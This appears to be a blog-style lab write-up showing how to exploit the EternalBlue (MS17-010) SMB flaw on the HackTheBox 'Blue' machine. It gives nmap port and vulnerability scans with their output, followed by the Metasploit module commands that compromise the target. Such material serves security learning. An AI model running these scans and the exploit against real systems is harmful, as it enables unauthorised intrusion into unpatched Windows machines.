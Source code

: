 ```yaml
---
title: "How to Hack Windows with EternalBlue"
author: Gerh
featured-img: EternalBlue
image: "https://hackingprofessional.github.io/Security/images/EternalBlue.jpg"
description: "Using the NSA's EternalBlue exploit"
categories: [Hacking Windows, Hacking from 0, Metasploit Framework, 0 Day]
---
```


Hello Hackers!!  
On April 8 the group The Shadow Brokers after entering the systems of the NSA, to expose in their Github the tools they found.  

Within the filtered tools, there is an exploit (EternalBlue) that allows exploiting a vulnerability in the SMB protocol version 1, and of this way can execute Remote Code (RCE) on the victim machine gaining access to the system.  

  - Microsoft Bulletin: [MS17-010(Critical)](https://www.microsoft.com/en-us/msrc?rtc=1)  
  - Common Vulnerabilities and Exposures: [CVE-2017-0143](https://nvd.nist.gov/vuln/detail/CVE-2017-0143)  

### ¿WHAT EFFECT HAVE THIS VULNERABILITY?*  
This vulnerability was used to propagate Ransomware Wanna Cry, which encrypted data from companies, and medical centers. To date, there are many variants of Ransomeware.  

## Hacking [Blue](https://www.hackthebox.eu/home/machines/profile/51)
Today we will learn how to exploit this vulnerability using Metasploit, for this demonstration an intrusion test will be performed towards the [Blue](https://www.hackthebox.eu/home/machines/profile/51) machine of the HackTheBox platform.

### Network Enumeration
Let’s start with a quick NMAP scan to discover open ports.

```shell
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3673]
╰─[:)] # nmap -p- -sV -T4 -oN Blue.nmap 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 08:54 -05
Nmap scan report for 10.10.10.40
Host is up (0.39s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Apparently, the team is running the SMB service with port 445.  
We will continue listing this service, for this we will use nmap scripts specifically for the SMB service.
SMB, is a network protocol that allows files, printers and others services to be shared between nodes of a network of computers that use the Microsoft Windows operating system.  
[Full Article](https://en.wikipedia.org/wiki/Server_Message_Block)

### Scanning vulnerabilities using Nmap scripts for an audit
Nmap is highly recognized in the world of Informatic security for its functionality of scanning networks, ports and services. However, the tool has been improving over the years, offering more and more possibilities that are very interesting. Currently incorporates the use of scripts to check some of the most known vulnerabilities, Which are classified in:

  - Auth: Run all your scripts available for authentication
  - Default: Executes the default basic scripts of the tool
  - Discovery: Retrieve information from the target or victim
  - External: Script to use external resources
  - Intrusive: Uses scripts that are considered intrusive to the victim or target
  - Malware: Check for malicious code connections or backdoors (backdoors)
  - Safe: Executes the scripts not intrusive
  - Vuln: Discover the most known vulnerabilities
  - All: Runs absolutely all scripts with NSE extension available

To perform a search of the scripts related to SMB and use them with Nmap, we do the following: 

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # ls /usr/share/nmap/scripts/ | grep "smb-vuln"
smb-vuln-conficker.nse
smb-vuln-cve2009-3103.nse
smb-vuln-cve-2017-7494.nse
smb-vuln-ms06-025.nse
smb-vuln-ms07-029.nse
smb-vuln-ms08-067.nse
smb-vuln-ms10-054.nse
smb-vuln-ms10-061.nse
smb-vuln-ms17-010.nse
smb-vuln-regsvc-dos.nse
```

Let's try all the previous scripts for port 445 of the SMB service.

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # nmap --script=smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse -p445 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 09:24 -05
Nmap scan report for 10.10.10.40
Host is up (0.69s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

Another way to evaluate the above is using the scripts of the category *vuln.*

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # nmap --script vuln -p445 10.10.10.40
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-09 09:22 -05
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.40
Host is up (0.20s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

With the results of the previous scans, we were able to identify the following:

  - OS: Windows 7
  - Computer name: HARIS-PC
  - VULNERABLE smb-vuln-ms17-010

After identifying that our machine is vulnerable to EternalBlue, we are going to use a metasploit module that allows us to exploit this vulnerability. 

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premium/Blue]─[root@Arthorias]─[0]─[3672]
╰─[:)] # msfconsole
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.10.40    <--> IP Victima
msf5 exploit(windows/smb/ms17_010_eternalblue) > run
```

<script id="asciicast-239838" src="https://asciinema.org/a/239838.js" async></script>

In this way we can completely commit a computer with the Windows operating system, thanks to the exposed vulnerability.
